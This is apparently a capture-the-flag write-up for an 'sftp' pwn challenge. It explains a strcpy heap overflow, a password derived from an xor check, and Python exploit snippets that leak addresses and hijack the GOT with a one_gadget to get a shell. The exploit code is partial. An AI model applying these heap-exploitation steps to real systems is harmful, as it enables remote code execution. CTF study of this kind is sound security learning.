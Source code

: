 # Introduction
This poc only use one vulnerability in the function `new_entry` to get the shell.
The copy of name can bypass the length limitation of name field.
```c
  #define name_max 20
  ...
  *child = malloc(sizeof(entry));
  (*child)->parent_directory = parent;
  (*child)->type = INVALID_ENTRY;
  strcpy((*child)->name, name);
```
# Login
After running the binary we are shown what looks like a standard ssh login. We have to calculate the password to get in.
```
The authenticity of host 'sftp.google.ctf (3.13.3.7)' can't be established.
ECDSA key fingerprint is SHA256:+d+dnKGLreinYcA8EogcgjSF3yhvEBL+6twxEc04ZPq.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'sftp.google.ctf' (ECDSA) to the list of known hosts.
c01db33f@sftp.google.ctf's password:
```
The password is calculated with `xor`, and finally compared with `0x8DFA`. It can be solved by angr or z3, even by yourself.
Finally I figure out one of the passwords is `\x77\x10\x10\x10\x1d`.
```c
  if ( !(unsigned int)__isoc99_scanf("%15s", &v5) )
    return 0LL;
  v3 = _IO_getc(stdin);
  LOWORD(v3) = v5;
  if ( !v5 )
    return 0LL;
  v4 = 0x5417;
  do
  {
    v3 ^= v4;
    ++v0;
    v4 = 2 * v3;
    LOWORD(v3) = *v0;
  }
  while ( (_BYTE)v3 );
  result = 1LL;
  if ( (_WORD)v4 != 0x8DFAu )
    return 0LL;
```
# Leak the address of entry
After login the sftp, we can get the source can in `src/sftp.c`. As mentioned before, we find the function `new_entry` can set up an entry whose name length longger than `name_max`.
According to the `entry struct` and `link_entry struct`, we find that the entry address can be leaked by symlinking a directory/file.
```python
p.recvuntil('sftp> ')
p.sendline('symlink /home/c01db33f /home/c01db33f/'+'a'*20)
p.recvuntil('sftp> ')
p.sendline('ls')
p.recvuntil('a'*20)
addr = u64(p.recv(4)+'\x00'*4)
```
```c
struct entry {
  struct directory_entry* parent_directory;
  enum entry_type type;
  char name[name_max];
};
...
struct link_entry {
  struct entry entry;
  struct entry* target;
};
```
To get the base address of program, we should get the `parent_directory` of the `/home/c01db33f` entry.
# Leak any address content
To leak any address content, we also use the function `new_entry`.
We find that when the number of child is bigger than `0x10`, it will do realloc, and double the child number.
```c
directory_entry* parent = find_directory(path);
  entry** child = NULL;
  for (size_t i = 0; i < parent->child_count; ++i) {
    if (!parent->child[i]) {
      child = &parent->child[i];
      break;
    }
  }

  if (!child) {
    directory_entry* new_parent = realloc(parent, sizeof(directory_entry) + (parent->child_count * 2 * sizeof(entry*)));
    if (parent != new_parent) {
      update_links((entry*)parent, (entry*)new_parent);
      parent = new_parent;
    }

    for (size_t i = 0; i < parent->child_count; ++i) {
      parent->child[i]->parent_directory = parent;
    }

    child = &parent->child[parent->child_count];
    parent->child_count *= 2;
  }
  ```
So we can make a directory with a long name. The name has to cover 17 childs, and end with the `address-12`.
Then make 17 directories under that directory. The content can be leaked by the command `ls`.
So we can leak the address of program and libc.
  ```c
  struct directory_entry {
  struct entry entry;

  size_t child_count;
  struct entry* child[];
};
```
```python
def leak(addr):
	p.recvuntil('sftp> ')
	p.sendline('mkdir '+'b'*164+p64(addr-12))
	p.recvuntil('sftp> ')
	p.sendline('cd '+'b'*20+'\x10')
	for i in range(0,17):
		p.recvuntil('sftp> ')
		p.sendline('mkdir '+str(i))
	p.recvuntil('sftp> ')
	p.sendline('ls')
	p.recvuntil('16\n')
	addr = p.recv(6)+'\x00'*2
```
# Got hijacking
Now we have the address of program and libc. To get the shell, we can hijack the got.
How to overwrite the Got?
* With the command `put`, we can upload a file whose length is longger than `sizeof(file_entry)`. 
```c
struct file_entry {
  struct entry entry;

  size_t size;
  char* data;
};
```
* Leak the data address in the file_entry
```python
p.recvuntil('sftp> ')
p.sendline('symlink fake_file '+'d'*20)
p.recvuntil('sftp> ')
p.sendline('ls')
p.recvuntil('d'*20)
put_file = u64(p.recv(4)+'\x00'*4)
print hex(put_file)
fake_file = u64(leak(put_file+40)[0:4]+'\x00'*4)
print hex(fake_file)
```
* With the method of leaking, make a directory include the fake file_entry as a child. And leak the directory address.
```python
p.recvuntil('> ')
p.sendline('cd /home/c01db33f')
p.recvuntil('sftp> ')
p.sendline('mkdir '+'e'*164+p64(fake_file))
p.sendline('symlink '+'e'*20+'\x10 '+'c'*20)
p.recvuntil('sftp> ')
p.sendline('ls')
p.recvuntil('c'*20)
dir_addr = u64(p.recv(4)+'\x00'*4)
print hex(dir_addr)
```
* Rewrite the uploaded file as a fake file_entry. The `data` of fake file_entry is the address of got.
```python
fake_entry = p64(dir_addr) + p64(0x6161616100000002) + p64(0)*2 + p64(16) + p64(base+0x2050b0)
p.recvuntil('sftp> ')
p.sendline('put fake_file')
p.sendline('48')
p.send(fake_entry)
```
* Make 17 directoryies, and rewrite the fake file with one_gadget address(Got hijacking).
```python
p.recvuntil('sftp> ')
p.sendline('cd '+'e'*20+'\x10')
for i in range(0,17):
	p.recvuntil('sftp> ')
	p.sendline('mkdir '+str(i))
p.recvuntil('sftp> ')
p.sendline('ls')

p.recvuntil('sftp> ')
p.sendline('put aaaa')
p.sendline('8')
p.send(p64(one_gadget))
```

